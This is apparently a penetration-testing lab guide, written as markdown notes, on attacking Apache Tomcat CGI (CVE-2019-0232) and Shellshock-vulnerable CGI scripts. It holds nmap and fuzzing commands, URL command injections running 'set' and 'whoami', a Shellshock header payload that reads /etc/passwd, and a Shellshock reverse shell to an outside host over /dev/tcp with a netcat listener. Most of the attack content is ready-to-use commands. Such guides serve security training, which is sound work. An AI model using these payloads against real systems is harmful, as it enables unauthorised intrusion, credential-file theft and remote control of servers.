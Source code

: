 # Attacking Common Applications   
`The Guide`

- [Attacking Tomcat CGI](#attacking-tomcat-cgi)
- [Attacking Common Gateway Interface (CGI) Applications - Shellshock](#attacking-common-gateway-interface-cgi-applications---shellshock)
- [Attacking Thick Client Applications]

## Attacking Tomcat CGI
Nmap Enumeration
```bash
nmap -p- -sC -Pn 10.129.204.227 --open 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

Host script results:
| smb2-time: 
|   date: 2023-03-23T11:58:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 165.25 seconds
```
`Here we can see that Nmap has identified Apache Tomcat/9.0.17 running on port 8080 running.`

> **Finding a `cgi` script**. One way to uncover web server content is by utilising the ffuf web enumeration tool along with the dirb common.txt wordlist. Knowing that the default directory for CGI scripts is /cgi, either through prior knowledge or by researching the vulnerability, we can use the URL http://IP:8080/cgi/FUZZ.cmd or http://IP:8080/cgi/FUZZ.bat to perform fuzzing.

Fuzzing Extentions - .BAT
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

Exploitation
`CVE-2019-0232`
Retrieve a list of environmental variables by calling the set command.
```bash
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
Executing `whoami`
```bash
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

## Attacking Common Gateway Interface (CGI) Applications - Shellshock
We can hunt for CGI scripts using a tool such as Gobuster. Here we find one, access.cgi.
```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.
```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi
```
Confirming the Vulnerability
```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
**Reverse Shell**
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

> Don't forget to run the netcat listner.
